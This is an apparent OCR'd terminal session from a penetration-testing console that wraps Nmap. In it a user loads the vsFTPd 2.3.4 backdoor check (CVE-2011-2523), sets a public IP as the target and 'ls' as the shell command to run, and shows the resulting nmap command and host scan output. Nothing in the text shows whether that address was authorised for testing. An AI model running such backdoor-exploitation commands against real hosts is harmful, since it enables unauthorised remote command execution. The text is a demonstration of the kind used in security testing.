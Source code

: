 	intrusive/ftp/vsftpd-backdoor          Tests for the presence of the vsFTPd 2.3.4 backdoor reporte
	malware/ftp/vsftpd-backdoor            Tests for the presence of the vsFTPd 2.3.4 backdoor reporte
	vuln/ftp/vsftpd-backdoor               Tests for the presence of the vsFTPd 2.3.4 backdoor reporte
	osail default(tcp-service-discovery)> use exploit/ftp/vsftpd-backdoor
	osail vuln(ftp-vsftpd-backdoor)> show info
	      Name: ftp-vsftpd-backdoor
	    Module: /usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse
	 Author(s): Daniel Miller
	   License: Same as Nmap--See https://nmap.org/book/man-legal.html
	Categories: vuln, malware, intrusive, exploit

	Options:
	  Name                      Current Setting    Description
	  ----                      ---------------    -----------
	  RHOST                     default            The target address
	  RPORT                     80                 The target port
	  ftp-vsftpd-backdoor.cmd                      Command to execute in shell

	Description:
	  Tests for the presence of the vsFTPd 2.3.4 backdoor reported on
	  2011-07-04 (CVE-2011-2523). This script attempts to exploit the
	  backdoor using the innocuous <code>id</code> command by default, but
	  that can be changed with the <code>exploit.cmd</code> or <code>ftp-
	  vsftpd-backdoor.cmd</code> script arguments.  References:  *
	  http://scarybeastsecurity.blogspot.com/2011/07/alert-vsftpd-
	  download-backdoored.html * https://github.com/rapid7/metasploit-fram
	  ework/blob/master/modules/exploits/unix/ftp/vsftpd_234_backdoor.rb *
	  http://cve.mitre.org/cgi-bin/cvekey.cgi?keyword=CVE-2011-2523

	osail vuln(ftp-vsftpd-backdoor)> set RHOST  159.89.225.14
	osail vuln(ftp-vsftpd-backdoor)> set RPORT 21
	osail vuln(ftp-vsftpd-backdoor)> set ftp-vsftpd-backdoor.cmd ls
	osail vuln(ftp-vsftpd-backdoor)> run
	[*] /usr/bin/nmap -p 21 -A -oX - --script ftp-vsftpd-backdoor --script-args "ftp-vsftpd-backdoor.cmd=ls" --host-timeout=10 --dns-servers=8.8.8.8 --max-retries=10 --max-scan-delay=0 --min-parallelism=1 --scan-delay=0 --max-parallelism=100 159.89.225.14
	[+] Nmap done at Sat Mar 17 01:09:47 2018; 1 IP address (1 host up) scanned in 0.90 seconds
	[+] 159.89.225.14
	osail vuln(ftp-vsftpd-backdoor)> hosts 159.89.225.14
	    Host                 Hostname
	    ----                 --------
	    159.89.225.14
	    Port 25/tcp (smtp): 	State: filtered
	        CPE
	           None
	        Analysis
	    Port 21/tcp (unknown): 	State: open
	        CPE
	           cpe:/a:vsftpd:vsftpd:3.0.3
	        Analysis
	           ftp-syst
	               STAT=
	FTP server status:
	     Connected to ::ffff:x.x.x.x
	     Logged in as ftp
	     TYPE: ASCII
	     No session bandwidth limit
	     Session timeout in seconds is 300
	     Control connection is plain text
	     Data connections will be plain text
	     At session startup, client count was 16
	     vsFTPd 3.0.3 - secure, fast, stable
	End of status
	    Port 22/tcp (unknown): 	State: open
	        CPE